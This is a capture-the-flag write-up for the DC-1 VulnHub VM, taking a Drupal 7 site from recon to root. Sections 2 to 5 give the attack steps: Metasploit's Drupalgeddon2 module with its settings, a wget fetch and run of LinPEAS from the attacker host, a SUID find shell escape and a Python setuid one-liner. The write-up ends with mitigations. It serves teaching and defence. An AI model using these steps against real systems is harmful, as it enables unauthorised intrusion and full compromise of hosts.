







# DC-1: Drupalgeddon2 to Root via SUID Misconfiguration

**Category:** Web (CMS RCE) / Linux Privilege Escalation | **Difficulty:** Beginner-Medium | **Date:** November 2026
**Source:** [DC-1 (VulnHub)](https://www.vulnhub.com/entry/dc-1,292/) — a publicly available CTF VM created by DCAU7

## Overview

| | |
|---|---|
| **Target IP** | 192.168.224.132 (DC-1) |
| **Attacker IP** | 192.168.224.128 (Kali Linux) |
| **OS** | Debian (Linux kernel) |
| **Services** | SSH (22), HTTP (80, Drupal 7), rpcbind (111), status (50054) |

DC-1 is a beginner-to-intermediate boot2root VM centered on a vulnerable Drupal 7 installation. The engagement chained a well-known CMS remote code execution vulnerability (Drupalgeddon2) with a classic Linux SUID binary misconfiguration to go from zero access to full root compromise.

## Tools Used

`arp-scan` • `nmap` • Metasploit Framework (`msfconsole`) • `wget` • [LinPEAS](https://github.com/carlospolop/PEASS-ng) • Python one-liner privilege escalation

## Methodology

### 1. Network Reconnaissance

An ARP scan of the local subnet identified four live hosts. The host at `192.168.224.132` stood out as the only non-infrastructure VM (the `.1`, `.2`, and `.254` addresses were gateway/DHCP devices).


*arp-scan -l — four hosts found; 192.168.224.132 selected as the target*

A full-port `nmap` scan with service/version detection (`-p- --open -sC -sV -T4 -Pn`) revealed:
- **22/tcp** — OpenSSH 6.0p1 (Debian)
- **80/tcp** — Apache 2.2.22, running **Drupal 7**
- **111/tcp** — rpcbind
- **50054/tcp** — status (RPC)

The HTTP title ("Welcome to Drupal Site") and the `http-generator` script output confirming **Drupal 7** immediately pointed toward one of the CMS's many known pre-authentication RCE vulnerabilities.


*nmap -sC -sV full port scan — Apache/Drupal 7 identified on port 80, SSH on 22*

### 2. Exploitation — Drupalgeddon2 (CVE-2018-7600)

Drupal 7 before 7.58 is vulnerable to **Drupalgeddon2**, a pre-authentication remote code execution flaw in Drupal's Form API that allows arbitrary PHP execution without any valid credentials. Metasploit's module for this vulnerability was located and loaded:

```
msf > search drupalgeddon
msf > use exploit/unix/webapp/drupal_drupalgeddon2
```

The module offers several in-memory and dropper targets; target `5` (`Drupal 7.x (PHP In-Memory)`) was selected to avoid writing a payload file to disk.


*msfconsole — Drupalgeddon2 module located, target 5 (PHP In-Memory) selected*

With `RHOSTS` and `LPORT` configured, the exploit was launched:

```
set RHOSTS 192.168.224.132
set LPORT 1234
exploit
```

A Meterpreter session opened immediately, confirming successful pre-auth RCE against the Drupal installation.


*Drupalgeddon2 exploit executed — Meterpreter session 1 opened against 192.168.224.132*

### 3. Initial Foothold Confirmation

Dropping from the Meterpreter session into a system shell and running `id` confirmed code execution as the web server user:

```
www-data@DC-1:/var/www$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


*id confirms remote code execution as www-data on DC-1*

### 4. Privilege Escalation Enumeration

With an initial foothold established, [LinPEAS](https://github.com/carlospolop/PEASS-ng) was transferred to the target to automate privilege-escalation enumeration — fetched from a simple Python HTTP server hosted on the attacker machine:

```bash
wget http://192.168.224.128/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```


*LinPEAS downloaded via wget, made executable, and run from /tmp*

LinPEAS flagged the `find` binary as carrying the **SUID bit** set to root — a well-documented privilege-escalation vector (see [GTFOBins: find](https://gtfobins.github.io/gtfobins/find/)), since `find`'s `-exec` flag can be abused to spawn an arbitrary command with the binary's elevated privileges.

### 5. Privilege Escalation — SUID `find` → Python UID Sync → Root

Exploiting the SUID `find` binary (`find . -exec /bin/sh -p \; -quit`) spawned a shell with an elevated **effective** UID, but the **real** UID remained `www-data` — visible as the inconsistent, unlabelled `bash-4.2#` prompt. To fully synchronize both the real and effective UID/GID to root, a short Python one-liner was used:

```bash
python -c 'import os; os.setgid(0); os.setuid(0); os.system("/bin/bash")'
```

This produced a fully-elevated root shell, confirmed by `id`:

```
root@DC-1:/tmp# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

From there, `/root` was accessed and the final flag retrieved:

```
root@DC-1:~# cat thefinalflag.txt
Well done!!!!
```


*SUID find spawns an inconsistent-UID shell; python os.setuid(0)/os.setgid(0) produces a clean root shell; thefinalflag.txt read*

## Key Takeaways

- A single outdated CMS version (Drupal 7 < 7.58) was enough for full pre-authentication remote code execution — patch cadence for CMS platforms is critical.
- Automated enumeration tools like LinPEAS dramatically speed up discovering local privilege-escalation vectors that would otherwise require manual, binary-by-binary review.
- Not every SUID exploit produces a clean shell on the first try — understanding the difference between **real UID** and **effective UID** is essential to recognize and fix a partially-escalated shell.
- Classic SUID misconfigurations (on utilities like `find`, `vim`, `less`, `cp`) remain one of the most common real-world privilege-escalation paths on Linux systems, documented extensively on GTFOBins.

## Mitigation and Prevention

**CMS patching (critical)**
- Upgrade Drupal to the latest patched 7.x/9.x/10.x release immediately; Drupalgeddon2 (CVE-2018-7600) was patched in Drupal 7.58.
- Subscribe to the Drupal Security Advisory mailing list and apply security releases within days, not months.
- Run a WAF (e.g., ModSecurity with the OWASP Core Rule Set) in front of any public-facing CMS as defense in depth.

**SUID binary hardening**
- Remove the SUID bit from `find` and any other utility that does not strictly require it: `chmod u-s /usr/bin/find`.
- Periodically audit the system for SUID/SGID binaries: `find / -perm -4000 -o -perm -2000 2>/dev/null`.
- Cross-reference discovered SUID binaries against [GTFOBins](https://gtfobins.github.io/) during routine security audits.

**General hardening**
- Run web applications under a least-privilege service account with no shell and a locked-down home directory.
- Restrict outbound connections from the web server user (`www-data`) to prevent tool downloads (e.g., LinPEAS, exploit payloads) during a live compromise.
- Deploy host-based intrusion detection (e.g., auditd rules on `execve` for `find`, `python`, `/bin/sh`) to catch privilege-escalation attempts in real time.
- Keep the underlying OS and kernel patched alongside the application layer — CMS hardening alone is not sufficient if the host itself is weak.

## Conclusion

DC-1 demonstrates a complete, realistic attack chain using only publicly known vulnerabilities and tools: a pre-authentication CMS RCE (Drupalgeddon2) for initial access, followed by a classic SUID binary misconfiguration for privilege escalation to root. Neither step required custom exploit development — both are textbook examples of why timely patching and basic Linux permission hygiene (especially around SUID binaries) remain foundational, high-impact security controls.
